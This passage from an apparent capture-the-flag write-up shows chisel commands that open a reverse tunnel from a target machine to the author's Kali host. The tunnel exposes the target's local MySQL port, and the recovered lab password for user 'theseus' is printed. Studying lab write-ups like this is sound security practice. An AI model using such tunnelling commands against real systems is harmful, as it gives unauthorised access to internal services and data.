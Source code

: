 I donwloaded the latest binary and perform the following commands to obtain the tunnel:

**KALI**
```shell
./chisel_1.7.6_linux_amd64 server -p 8000 -reverse
```

**MAGIC**
```shell
./chisel_1.7.6_linux_amd64 client $(kaliIPAddress):8000 R:3306:127.0.0.1:3306 &
```

![Image 2](pictures/magic-14.png)

Now, I was able to connect to the sql database from my kali machine. With the SQL database, I could get the password for the user theseus, *Th3s3usW4sK1ng*

![Image 2](pictures/magic-15.png)
